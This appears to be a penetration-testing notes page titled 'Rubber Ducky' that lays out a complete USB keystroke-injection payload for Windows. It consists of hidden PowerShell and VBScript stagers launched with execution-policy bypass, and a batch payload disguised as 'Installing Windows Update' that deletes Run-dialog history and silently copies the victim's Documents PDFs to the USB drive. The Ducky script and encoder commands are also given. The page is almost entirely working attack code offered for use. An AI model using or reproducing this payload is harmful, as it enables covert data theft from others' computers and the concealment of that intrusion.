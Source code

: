 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:
https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar
https://github.com/kevthehermit/DuckToolkit

Create a Rubber Ducky:
http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick/
https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick/

Payloads:
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads
https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload

https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky



https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained


